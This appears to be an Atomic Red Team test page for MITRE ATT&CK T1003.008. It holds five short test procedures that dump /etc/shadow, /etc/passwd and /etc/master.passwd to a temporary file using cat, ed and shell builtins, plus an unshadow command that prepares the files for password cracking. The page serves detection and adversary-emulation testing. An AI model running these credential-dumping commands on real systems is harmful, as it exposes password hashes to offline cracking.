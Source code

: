 # T1003.008 - OS Credential Dumping: /etc/passwd, /etc/master.passwd and /etc/shadow
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1003/008)
<blockquote>Adversaries may attempt to dump the contents of <code>/etc/passwd</code> and <code>/etc/shadow</code> to enable offline password cracking. Most modern Linux operating systems use a combination of <code>/etc/passwd</code> and <code>/etc/shadow</code> to store user account information including password hashes in <code>/etc/shadow</code>. By default, <code>/etc/shadow</code> is only readable by the root user.(Citation: Linux Password and Shadow File Formats)

The Linux utility, unshadow, can be used to combine the two files in a format suited for password cracking utilities such as John the Ripper:(Citation: nixCraft - John the Ripper) <code># /usr/bin/unshadow /etc/passwd /etc/shadow > /tmp/crack.password.db</code>
</blockquote>

## Atomic Tests

- [Atomic Test #1 - Access /etc/shadow (Local)](#atomic-test-1---access-etcshadow-local)

- [Atomic Test #2 - Access /etc/master.passwd (Local)](#atomic-test-2---access-etcmasterpasswd-local)

- [Atomic Test #3 - Access /etc/passwd (Local)](#atomic-test-3---access-etcpasswd-local)

- [Atomic Test #4 - Access /etc/{shadow,passwd,master.passwd} with a standard bin that's not cat](#atomic-test-4---access-etcshadowpasswdmasterpasswd-with-a-standard-bin-thats-not-cat)

- [Atomic Test #5 - Access /etc/{shadow,passwd,master.passwd} with shell builtins](#atomic-test-5---access-etcshadowpasswdmasterpasswd-with-shell-builtins)


<br/>

## Atomic Test #1 - Access /etc/shadow (Local)
/etc/shadow file is accessed in Linux environments

**Supported Platforms:** Linux


**auto_generated_guid:** 3723ab77-c546-403c-8fb4-bb577033b235





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | path | /tmp/T1003.008.txt|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
sudo cat /etc/shadow > #{output_file}
cat #{output_file}
```

#### Cleanup Commands:
```bash
rm -f #{output_file}
```





<br/>
<br/>

## Atomic Test #2 - Access /etc/master.passwd (Local)
/etc/master.passwd file is accessed in FreeBSD environments

**Supported Platforms:** Freebsd


**auto_generated_guid:** 5076874f-a8e6-4077-8ace-9e5ab54114a5





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | path | /tmp/T1003.008.txt|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo cat /etc/master.passwd > #{output_file}
cat #{output_file}
```

#### Cleanup Commands:
```sh
rm -f #{output_file}
```





<br/>
<br/>

## Atomic Test #3 - Access /etc/passwd (Local)
/etc/passwd file is accessed in FreeBSD and Linux environments

**Supported Platforms:** Freebsd, Linux


**auto_generated_guid:** 60e860b6-8ae6-49db-ad07-5e73edd88f5d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | path | /tmp/T1003.008.txt|


#### Attack Commands: Run with `sh`! 


```sh
cat /etc/passwd > #{output_file}
cat #{output_file}
```

#### Cleanup Commands:
```sh
rm -f #{output_file}
```





<br/>
<br/>

## Atomic Test #4 - Access /etc/{shadow,passwd,master.passwd} with a standard bin that's not cat
Dump /etc/passwd, /etc/master.passwd and /etc/shadow using ed

**Supported Platforms:** Freebsd, Linux


**auto_generated_guid:** df1a55ae-019d-4120-bc35-94f4bc5c4b0a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | path | /tmp/T1003.008.txt|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
echo -e "e /etc/passwd\n,p\ne /etc/master.passwd\n,p\ne /etc/shadow\n,p\n" | ed > #{output_file}
```

#### Cleanup Commands:
```sh
rm -f #{output_file}
```





<br/>
<br/>

## Atomic Test #5 - Access /etc/{shadow,passwd,master.passwd} with shell builtins
Dump /etc/passwd, /etc/master.passwd and /etc/shadow using sh builtins

**Supported Platforms:** Freebsd, Linux


**auto_generated_guid:** f5aa6543-6cb2-4fae-b9c2-b96e14721713





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | path | /tmp/T1003.008.txt|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
testcat(){ (while read line; do echo $line >> #{output_file}; done < $1) }
testcat /etc/passwd
testcat /etc/master.passwd
testcat /etc/shadow
```

#### Cleanup Commands:
```sh
rm -f #{output_file}
```





<br/>
